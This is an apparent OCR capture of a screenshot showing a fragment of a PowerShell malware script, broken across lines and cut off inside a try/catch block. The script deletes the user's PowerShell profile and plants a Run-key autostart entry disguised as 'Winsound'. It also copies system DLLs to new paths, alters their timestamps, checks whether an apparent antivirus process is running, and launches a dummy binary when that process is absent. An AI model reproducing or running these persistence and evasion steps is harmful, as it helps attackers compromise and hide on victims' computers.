
                   updt
-t $binPathdll -b $cmdl32path


         }





         Remove-Item
-Path $system | Out-Null;


         Remove-Item
$PROFILE.CurrentUserAllHosts | Out-Null;


         New-ItemProperty
-Path $run -Name "Winsound" -PropertyType String -Value $dmybinPath |
Out-Null;


         


         Copy-Item  $msvbvmdllpath $rpcdllpath


         updt
-t $rpcdllpath -b $msvbvmdllpath





         Copy-Item
$cmdl32path $dmybinPath


         updt
-t $dmybinPath -b $cmdl32path





         $avr
= Get-Process $pnameavr -ErrorAction SilentlyContinue


         if
(!$avr) {


                   &($dmybinPath)
| Out-Null;


         }


         Exit


}


catch {
